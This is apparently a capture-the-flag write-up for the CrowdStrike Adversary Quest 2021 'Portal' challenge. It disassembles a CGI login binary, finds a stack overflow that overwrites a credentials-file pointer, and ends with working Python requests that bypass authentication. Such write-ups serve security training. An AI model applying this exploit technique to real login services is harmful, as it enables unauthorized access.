

# Crowdstrike Adversary Quest 2021 / Protective Penguin / #1 Portal

## Challenge Description
PROTECTIVE PENGUIN gained access to one of their victims through the victim's extranet authentication portals and we were asked to investigate.
Please download the Portal Code and see whether you can reproduce their means of initial access vector. We stood up a test instance of the authentication portal for you to validate against.
NOTE: Flags will be easily identifiable by following the format CS{some_secret_flag_text}. They must be submitted in full, including the CS{ and } parts.

## Authentication Portal, Local Files
The archive for the test instance contains the following files:
```
./index.html
./run.sh
./cgi-bin
./cgi-bin/portal.cgi
./creds.txt
```

For testing purposes, use run.sh to fire up a local webserver through python...
```
#!/bin/sh
export FLAG=CS{foobar}
python3 -m http.server --cgi --bind 127.0.0.1
```
```
./run.sh 
Serving HTTP on 127.0.0.1 port 8000 (http://127.0.0.1:8000/) ...
```
... serving a rather simple web page resembling a VPN login.


### Page Source
The login form uses an inline Javascript function *auth()* on submitting data for the fields *input_username* and *input_password*...
```javascript
function auth() {
  let creds = {
    user: btoa(document.getElementById("input_username").value),
    pass: btoa(document.getElementById("input_password").value)
  };
  if (!creds.user) {
    notification("Empty username", "warning");
    return;
  }
  if (!creds.pass) {
    notification("Empty password", "warning");
    return;
  }

  fetch("/cgi-bin/portal.cgi", {
    method: "POST",
    body: JSON.stringify(creds),
  }).then(function (response) {
    return response.text();
  }).then(function (data) {
    let json = JSON.parse(data);
    if (json.status == "success") {
      notification(`Login success: ${json.flag}`, "success");
[...]
```
... which base64 encodes both field values and delivers them via HTTP POST as JSON to the CGI program */cgi-bin/portal.cgi*.
A test run with admin/admin creds looks like this:
```json
{"user":"YWRtaW4=","pass":"YWRtaW4="}
```

The web page and the Javascript do not seem to be vulnerable, so the attention is on to portal.cgi!

### Portal CGI, Checksec
A little glance at program security features with checksec never hurts...
```
/usr/bin/checksec --file=cgi-bin/portal.cgi
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols        No    0               3               cgi-bin/portal.cgi
```
... and shows usage of stack canaries but also no PIE (position independent executable). So the base code might not make use of ASLR (address space layout randomization), which could be a first wink.

### Portal CGI, Binary info
Gathering some ELF infos with readelf yields program entry point **0x401140** (no ASLR).
```
readelf -a cgi-bin/portal.cgi 
ELF Header:
  Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF64
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Advanced Micro Devices X86-64
  Version:                           0x1
  Entry point address:               0x401140
```
Quickly identify entrypoint of function *main* via rabin2
```
rabin2 -M cgi-bin/portal.cgi 
[Main]
vaddr=0x00401434 paddr=0x00401434
```

### Portal CGI, Disassemble main() @ 0x401434
Use radare2 to disassemble function *main* of portal.cgi (output is shortened for readability and additionally commented with ;;)
```assembly
r2 -q -c "pd 125 @ main" cgi-bin/portal.cgi 
            ;-- main:
            0x00401434      55             push rbp
            0x00401435      4889e5         mov rbp, rsp
            0x00401438      4881ec600400.  sub rsp, 0x460
[...]
            0x004014a5      488d3d6c0b00.  lea rdi, str.Content_Type:_application_json_r_n_r ; 0x402018 ; "Content-Type: application/json\r\n\r"
            0x004014ac      e88ffbffff     call sym.imp.puts
            0x004014b1      488d3d820b00.  lea rdi, str.REQUEST_METHOD ; 0x40203a ; "REQUEST_METHOD"
            0x004014b8      e873fbffff     call sym.imp.getenv
            0x004014bd      488d35850b00.  lea rsi, str.POST           ; 0x402049 ; "POST"
            0x004014c4      4889c7         mov rdi, rax
            0x004014c7      e804fcffff     call sym.imp.strcmp
            0x004014cc      85c0           test eax, eax
        ┌─< 0x004014ce      741b           je 0x4014eb  ;; REQUEST_METHOD == "POST"
[...]
       │└─> 0x004014eb      488d3d7e0b00.  lea rdi, str.CONTENT_LENGTH ; 0x402070 ; "CONTENT_LENGTH"
       │    0x004014f2      e839fbffff     call sym.imp.getenv
       │    0x004014f7      4889c7         mov rdi, rax
       │    0x004014fa      e821fcffff     call sym.imp.atoi
       │    0x004014ff      8985c4fbffff   mov dword [rbp - 0x43c], eax
       │    0x00401505      83bdc4fbffff.  cmp dword [rbp - 0x43c], 0
       │┌─< 0x0040150c      780d           js 0x40151b
       ││   0x0040150e      8b85c4fbffff   mov eax, dword [rbp - 0x43c]
       ││   0x00401514      3dff030000     cmp eax, 0x3ff              ; 1023
      ┌───< 0x00401519      761b           jbe 0x401536  ;; CONTENT_LENGTH <= 1023
[...]
      └───> 0x00401536      488b0d732b00.  mov rcx, qword [obj.stdin]  ; [0x4040b0:8]=0
       │    0x0040153d      8b85c4fbffff   mov eax, dword [rbp - 0x43c]
       │    0x00401543      4863d0         movsxd rdx, eax
       │    0x00401546      488d85f0fbff.  lea rax, [rbp - 0x410]
       │    0x0040154d      be01000000     mov esi, 1
       │    0x00401552      4889c7         mov rdi, rax
       │    0x00401555      e8f6faffff     call sym.imp.fread  ;; fread body into [rbp - 0x410]
[...]
       │    0x00401572      488d85f0fbff.  lea rax, [rbp - 0x410]
       │    0x00401579      4889c7         mov rdi, rax
       │    0x0040157c      e85ffbffff     call sym.imp.json_tokener_parse  ;; parse body JSON
[...]
       │    0x004015ac      488d95c8fbff.  lea rdx, [rbp - 0x438]
       │    0x004015b3      488b85e8fbff.  mov rax, qword [rbp - 0x418]
       │    0x004015ba      488d35e40a00.  lea rsi, str.user           ; 0x4020a5 ; "user"
       │    0x004015c1      4889c7         mov rdi, rax
       │    0x004015c4      e867fbffff     call sym.imp.json_object_object_get_ex  ;; put json obj pointer for user into [rbp - 0x438]
       │    0x004015c9      85c0           test eax, eax
       │    0x004015cb      0f84b7000000   je 0x401688
       │    0x004015d1      488d95d0fbff.  lea rdx, [rbp - 0x430]
       │    0x004015d8      488b85e8fbff.  mov rax, qword [rbp - 0x418]
       │    0x004015df      488d35c40a00.  lea rsi, str.pass           ; 0x4020aa ; "pass"
       │    0x004015e6      4889c7         mov rdi, rax
       │    0x004015e9      e842fbffff     call sym.imp.json_object_object_get_ex  ;; put json obj pointer for pass into [rbp - 0x430]
       │    0x004015ee      85c0           test eax, eax
       │    0x004015f0      0f8492000000   je 0x401688
       │    0x004015f6      488b85c8fbff.  mov rax, qword [rbp - 0x438]
       │    0x004015fd      4889c7         mov rdi, rax
       │    0x00401600      e8abfaffff     call sym.imp.json_object_get_string  ;; get pointer to value for user
       │    0x00401605      488985d8fbff.  mov qword [rbp - 0x428], rax  ;; save to [rbp - 0x428]
       │    0x0040160c      4883bdd8fbff.  cmp qword [rbp - 0x428], 0
       │    0x00401614      7472           je 0x401688
       │    0x00401616      488b85d0fbff.  mov rax, qword [rbp - 0x430]
       │    0x0040161d      4889c7         mov rdi, rax
       │    0x00401620      e88bfaffff     call sym.imp.json_object_get_string  ;; get pointer to value for pass
       │    0x00401625      488985e0fbff.  mov qword [rbp - 0x420], rax  ;; save to [rbp - 0x420]
       │    0x0040162c      4883bde0fbff.  cmp qword [rbp - 0x420], 0
       │    0x00401634      7452           je 0x401688
       │    0x00401636      488b95e0fbff.  mov rdx, qword [rbp - 0x420]
       │    0x0040163d      488b85d8fbff.  mov rax, qword [rbp - 0x428]
       │    0x00401644      4889d6         mov rsi, rdx
       │    0x00401647      4889c7         mov rdi, rax
       │    0x0040164a      e8d7fbffff     call 0x401226  ;; call validate(char *lpsz_user_b64, char *lpsz_pass_b64)
       │    0x0040164f      85c0           test eax, eax
       │    0x00401651      7522           jne 0x401675  ;; print flag value if validate returned 0 (winning condition)
       │    0x00401653      488d3d550a00.  lea rdi, str.FLAG           ; 0x4020af ; "FLAG"
       │    0x0040165a      e8d1f9ffff     call sym.imp.getenv
       │    0x0040165f      4889c6         mov rsi, rax
       │    0x00401662      488d3d4f0a00.  lea rdi, str._status_:__success____flag_:___s_ ; 0x4020b8 ; "{\"status\": \"success\", \"flag\": \"%s\"}"
       │    0x00401669      b800000000     mov eax, 0
       │    0x0040166e      e82dfaffff     call sym.imp.printf
[...]
```
### Analysis Summary for main()
- env REQUEST_METHOD has to be **POST**
- env CONTENT_LENGTH has to be less than 1024
- parses HTTP POST BODY as JSON, find string pointers for *user* and *pass*
- calls a function @ 0x401226 with parsed JSON values for *user* and *pass* as arguments
-> validate(char *lpsz_user_b64, char *lpsz_pass_b64)
- if validate function returns 0, the flag is returned from the portal.cgi

### Portal CGI, Disassemble validate() @ 0x401226


### Analysis Summary for validate()


high level:
main -> calls validate_creds with params b64_user, b64_pass
validate opens creds.txt, reads line by line, compares for valid creds
validate_creds returns 0 on success
main -> print flag on success

validate_creds has stack laylout
.text:0000000000401226                   lpb64password= qword ptr -240h
.text:0000000000401226                   lpb64username= qword ptr -238h
.text:0000000000401226                   stream= qword ptr -230h
.text:0000000000401226                   length_of_current_creds_line= qword ptr -228h
.text:0000000000401226                   var_220= dword ptr -220h
.text:0000000000401226                   var_21C= byte ptr -21Ch
.text:0000000000401226                   filename= qword ptr -18h
.text:0000000000401226                   stackCookie= qword ptr -8

var_220 is used as exit value (0 for success)
parsing of server local creds.txt happens line by line, reading up to 100h bytes with fgets into var_220 + 4 (range variable from -21Ch up to -11Dh)
b64 decoded username (up to 100h) bytes are saved to var_220 + 104 (range variable, from -11Ch up to -1Dh)
then a colon is added to decoded username (with max username length, e.g. at -1Ch)
b64 decoded password (up to 100h) bytes are saved to var_220 + 104 + strlen(username) + 1
with max size username from -1B up to and beyond stack frame border.


rabin2 -zz cgi-bin/portal.cgi 
[Strings]
nth paddr      vaddr      len size section   type    string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000034 0x00000034 5   12             utf16le @8\v@\e
1   0x000002a8 0x004002a8 27  28   .interp   ascii   /lib64/ld-linux-x86-64.so.2


strings -t x portal.cgi
    2a8 /lib64/ld-linux-x86-64.so.2

LOAD:00000000004002A8 aLib64LdLinuxX8 db '/lib64/ld-linux-x86-64.so.2',0

nope: its the right way, only path in non-dynamic memory is
fill up pass with \0 and then overwrite filename with offset $rax  : 0x00000000004002a8 → "/lib64/ld-linux-x86-64.so.2"

-> goal: user:pass combo to overwrite filename offset with 0x00000000004002a8
try with debug

ps auxwwg
kali      741831  0.0  0.0   2416   372 pts/0    S+   20:16   0:00 /bin/sh ./run.sh
kali      741832  0.0  0.9 245352 13628 pts/0    S+   20:16   0:01 python3 -m http.server --cgi --bind 127.0.0.1

gdb -p 741832

set follow-fork-mode child
set detach-on-fork off
b *0x401434     # main
b *0x401226     # validate_creds (see i64)
b *0x040131A    # fopen

gef➤  continue 
Continuing.
[New Thread 0x7fecaa6b6700 (LWP 743153)]
[Attaching after Thread 0x7fecaa6b6700 (LWP 743153) fork to child process 743154]
[New inferior 2 (process 743154)]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Reading symbols from /usr/lib/debug/.build-id/2c/c4e3a93e8ef0f4dee8f77225701d988f97b9c7.debug...
Reading symbols from /usr/lib/debug/.build-id/5b/d08b8a2b8511c50cc5e38aac39305cfcae72f0.debug...
Reading symbols from /usr/lib/debug/.build-id/f5/efbcea815d5c6da19e62263f67ca63f8bedeb6.debug...
Reading symbols from /usr/lib/debug/.build-id/e8/ef1ac73913c5833fc0088ea41bc3331db60ae2.debug...
Reading symbols from /usr/lib/debug/.build-id/a5/a3c3f65fd94f4c7f323a175707c3a79cbbd614.debug...
Reading symbols from /usr/lib/debug/.build-id/63/7706dbbbd112d03fbad61ca30125b48e60aa92.debug...
Reading symbols from /usr/lib/debug/.build-id/a4/94b325fdefe9742c94fcd34c583c08733d2318.debug...
process 743154 is executing new program: /mnt/hgfs/Crowdstrike-Adversary-Quest-2021/protective penguin/portal/authportal/cgi-bin/portal.cgi
Reading symbols from /usr/lib/debug/.build-id/63/7706dbbbd112d03fbad61ca30125b48e60aa92.debug...
Reading symbols from /usr/lib/debug/.build-id/97/0fa8cc35554ed6f4feb2d663067310d48cadb4.debug...
Reading symbols from /usr/lib/debug/.build-id/a5/a3c3f65fd94f4c7f323a175707c3a79cbbd614.debug...
[Switching to process 743154]

Thread 2.1 "portal.cgi" hit Breakpoint 1, 0x0000000000401434 in ?? ()

# first line read with fgets from /lib64/...

00001420: 0348 8d3c 9248 01ff 4829 f841 0fb6 3c01  .H.<.H..H).A..<.
00001430: 4889 c848 89d1 4188 3a48 83f8 0977 d14c  H..H..A.:H...w.L
00001440: 89d8 ba19 0000 0049 89e3 4c29 d048 83f8  .......I..L).H..

gef➤  x/200x $rsi
0x7ffde4289cd4: 0x48    0x29    0xf8    0x41    0x0f    0xb6    0x3c    0x01
0x7ffde4289cdc: 0x48    0x89    0xc8    0x48    0x89    0xd1    0x41    0x88
0x7ffde4289ce4: 0x3a    0x48    0x83    0xf8    0x09    0x77    0xd1    0x4c
0x7ffde4289cec: 0x89    0xd8    0xba    0x19    0x00    0x00    0x00    0x49

we have 16 chars for username, colon, and then 11 chars pass before first \0
fill up pass with \0 and then overwrite filename with offset $rax  : 0x00000000004002a8 → "/lib64/ld-linux-x86-64.so.2"

>>> import requests
>>> from base64 import b64encode
>>> import json
>>> data['user'] = b64encode(b'\x48\x29\xf8\x41\x0f\xb6\x3c\x01\x48\x89\xc8\x48\x89\xd1\x41\x88').decode('utf-8')
>>> data['pass'] = b64encode(b'\x48\x83\xf8\x09\x77\xd1\x4c\x89\xd8\xba\x19' + b'\x00'*232 + b'\xa8\x02\x40').decode('utf-8')
>>> requests.post('http://127.0.0.1:8000/cgi-bin/portal.cgi', data=json.dumps(data)).text
'{"status": "success", "flag": "CS{foobar}"}'

>>> requests.post('https://authportal.challenges.adversary.zone:8880/cgi-bin/portal.cgi', data=json.dumps(data)).text
'{"status": "err"}'

exploit works locally, but seems to fail on remote server
-> could be because the /lib64/ link is a soft link and might be a different version on server?
-> some memory issue?

grep for more colons, which might be less library version dependent

00022460: 6b00 0a70 7265 6c69 6e6b 2063 6865 636b  k..prelink check
00022470: 696e 673a 2025 730a 0066 6169 6c65 6400  ing: %s..failed.

>>> data['user'] = b64encode(b'prelink checking').decode('utf-8')
>>> data['pass'] = b64encode(b' %s' + b'\x00'*(260-16-1-3) + b'\xa8\x02\x40').decode('utf-8')
>>> requests.post('http://127.0.0.1:8000/cgi-bin/portal.cgi', data=json.dumps(data)).text
'{"status": "success", "flag": "CS{foobar}"}'
>>> requests.post('https://authportal.challenges.adversary.zone:8880/cgi-bin/portal.cgi', data=json.dumps(data)).text
'{"status": "success", "flag": "CS{w3b_vPn_h4xx}"}'

flag: CS{w3b_vPn_h4xx}
